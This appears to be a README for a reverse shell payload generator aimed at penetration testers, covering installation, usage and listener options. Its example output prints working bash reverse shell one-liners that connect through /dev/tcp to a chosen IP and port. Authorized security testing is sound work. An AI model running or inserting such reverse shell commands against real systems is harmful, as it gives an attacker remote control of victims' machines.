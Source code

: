 # Reverse Shell Generator Jagat

## Description

The **Reverse Shell Generator Jagat** is a versatile command-line utility designed to generate multiple types of reverse shell payloads across various programming languages and tools. It aims to assist security researchers, penetration testers, and ethical hackers by providing ready-to-use reverse shell commands that can be customized with a target IP address and port number.

This tool supports a wide range of reverse shell payloads including Bash, Python, Perl, Ruby, Netcat, Socat, PowerShell, PHP, Java, Node.js, and more. It offers easy selection of the preferred shell type and includes the ability to start a listener (using netcat or socat) to receive incoming reverse shell connections.

Key features include:

- Generation of multiple reverse shell payloads tailored to a target IP and port.
- Support for different shell types and languages with the option to specify the preferred shell.
- Validation of the given IP address to ensure it matches configured network interfaces on the host machine.
- Option to launch a listener automatically after selecting a payload, using netcat or socat.
- Color-coded output for better readability of payloads and messages.
- Inclusion of reverse shell payloads compatible with Windows and Unix-like systems.
- Easy installation via a provided shell script for Unix-like environments.

***

## Usage Instructions

### Prerequisites

- A Unix-like system (Linux, macOS) with Python 3 installed.
- `socat` or `netcat` (nc) installed for listener functionality.
- Root or sudo privileges to install the tool system-wide with the provided script (optional).

### Installation

1. Clone or download all files (`Reverse-Shell-Generator-Jagat`, `shells.txt`, and `install.sh`) into a directory.
2. Run the installation script as root to copy the main program to `/usr/local/bin` for easy global access:

   ```sh
   sudo sh install.sh
   ```

   This allows running the tool simply by typing:

   ```sh
   Reverse-Shell-Generator-Jagat
   ```

### Running the Tool

The basic command format is:

```sh
Reverse-Shell-Generator-Jagat <IP_ADDRESS> <PORT> [SHELL_TYPE]
```

- `IP_ADDRESS`: The target IP where the reverse shell should connect.
- `PORT`: The target port number for the connection.
- `[SHELL_TYPE]` (optional): The shell language/type for the reverse shell payload (e.g., bash, python, perl, ruby). If omitted, `bash` is used as the default.

Example usage:

```sh
Reverse-Shell-Generator-Jagat 192.168.0.10 4444
Reverse-Shell-Generator-Jagat 10.0.0.5 5555 python3
```

### What the Tool Does

- Validates that the IP address belongs to an interface on your machine.
- Reads the `shells.txt` file to gather all available reverse shell payloads.
- Filters the payloads based on the chosen or default shell type.
- Displays the reverse shell payload commands with the IP and port replaced.
- Prompts you to select a listener type:
  - Press `l` for a netcat or socat listener, depending on the shell type.
  - Press `i` for an interactive netcat listener (if applicable).
  - Press any other key to exit without launching a listener.
- If a listener is chosen, it runs the appropriate command to catch incoming shell connections.

***

## Shell Types Supported

Some of the supported shell types include (but are not limited to):

- bash
- python
- python3
- perl
- ruby
- netcat / nc
- socat
- powershell (Windows)
- php
- java
- node.js
- telnet

Each shell type has multiple payload variants to choose from, giving you flexibility based on the target system and environment.

***

## Example Output

For example, running:

```sh
Reverse-Shell-Generator-Jagat 192.168.1.10 4444 bash
```

will print multiple bash reverse shell payloads with the IP and port injected, like:

```bash
BASH REVERSE SHELL
bash -i >& /dev/tcp/192.168.1.10/4444 0>&1

BASH REVERSE SHELL
0<&196;exec 196<>/dev/tcp/192.168.1.10/4444; sh <&196 >&196 2>&196

...
```

Then it will prompt:

```
Select your payload then:

- press 'i' to attempt spawning an interactive netcat listener on port 4444,
- press 'l' to spawn a netcat listener on port 4444,
- press any other key to exit.
```

***

## Notes

- Make sure to open the relevant port(s) on firewalls.
- Use with caution and always have proper authorization before using reverse shells on networks or systems.
- The tool currently supports Linux/Unix environments natively; Windows payloads are for reference or use on compatible systems.
- Root privileges might be required for listener ports below 1024.

